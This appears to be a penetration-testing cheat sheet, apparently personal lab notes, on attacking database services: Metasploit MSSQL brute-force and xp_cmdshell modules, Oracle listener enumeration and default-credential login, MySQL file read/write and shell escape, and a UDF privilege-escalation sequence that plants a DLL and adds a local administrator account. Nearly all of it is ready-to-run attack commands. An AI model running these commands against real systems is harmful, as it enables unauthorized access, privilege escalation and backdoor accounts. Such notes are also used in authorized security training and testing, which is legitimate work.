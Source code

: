Metasploit SQL Server:
```bash
msf> use auxiliary/scanner/mssql/mssql_ping     # SQL Server num
msf> use auxiliary/scanner/mssql/mssql_login    # SQL Server login brute-force

msf> use auxiliary/admin/mssql/mssql_enum       # post-exploit enum
msf> use auxiliary/admin/mssql/mssql_exec       # if 'xp_cmdshell' is enabled, execute system commands
```

MSSQL Server - default credentials:
* http://support.webecs.com/kb/a867/what-is-the-default-password-for-the-sa-login.aspx
* https://support.microsoft.com/en-au/help/321081/installation-of-msde-creates-an-sa-account-with-a-blank-password-in-vi


### Oracle SQL Database Listener - TCP 1521

Look at notes from pwning `10.11.1.202`.

Check connection => enumerate login creds => Sqlplus login => extract data
```bash
$ tnscmd10g status --indent -h [target]             # check connection to DB
$ oscanner -s [target] -P 1521                      # enumerate users / default creds
$ sqlplus SYS/SYS@10.11.1.202/ACME 'as sysdba'      # login
```

### MySQL - TCP 3306

Connect:
```bash
$ mysql -u root -p -h [target]
```

Useful commands:
```SQL
SHOW GRANTS FOR 'user'@'%';           -- Show current permissions

GRANT FILE ON . to 'user'@'%';        -- Set privileges for file access
FLUSH PRIVILEGES;

SELECT 'content' INTO outfile 'path'; -- Write to file
SELECT load_file('path_to_file');     -- Read file
```

Drop to a shell (as the user running MySQL):
```
mysql> \! /bin/bash
```

MySQL root to system-root for windows/linux - https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/: 
```bash
$ USE mysql;
$ CREATE TABLE mytbl(line blob);
$ INSERT INTO mytbl values(load_file('C://xampplite//htdocs //lib_mysqludf_sys.dll'));
$ SELECT * FROM mysql.mytbl INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
$ CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
$ SELECT sys_exec("net user testu P@ssw0rd /add");
$ SELECT sys_exec("net localgroup Administrators testu /add");
```

